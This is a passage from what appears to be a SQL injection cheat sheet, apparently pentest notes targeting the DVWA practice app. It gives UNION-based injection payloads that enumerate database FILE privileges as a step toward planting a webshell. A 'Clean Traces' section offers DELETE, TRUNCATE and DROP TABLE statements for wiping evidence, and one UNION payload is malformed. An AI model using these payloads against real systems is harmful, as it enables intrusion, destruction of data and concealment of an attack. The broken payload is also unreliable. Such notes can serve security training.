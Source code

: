 #### 4.1.1.5 - Clean Traces

- DELETE Query after INSERTing

- UPDATE Query

TODO: Demonstrate it to wipe traces in the DB when you insert values

```sql
SELECT * FROM <database_name>.<table_name>;

' UNION SELECT * NULL FROM <database_name>.<table_name>#
```

Empty the table with the DELETE Statement

```sql
DELETE FROM <database_name>.<table_name>
```

Empty the table with the TRUNCATE Statement

```sql
TRUNCATE TABLE <database_name>.<table_name>;
```

```sql
DROP TABLE <database_name>.<table_name>;
```

### 4.1.2 - DBMS User Account

#### 4.1.2.1 - Conditions

1. The DB user must have **SELECT**, **INSERT**, **CREATE**, **ALTER**, **UPDATE**, **DELETE** privileges.

## 4.2 - Webshell

### 4.2.1 - Conditions

These are the required conditions to insert a webshell.

1. The DB user must have **FILE** and **SELECT** privileges.
2. Find the web root directory using the enumeration methods.
3. The web root directory must have write permissions.

### 4.2.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv) FROM mysql.user WHERE File_priv = 'Y' AND user = 'dvwa'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE OR 'FILE' AND GRANTEE LIKE "'dvwa'%"#
```
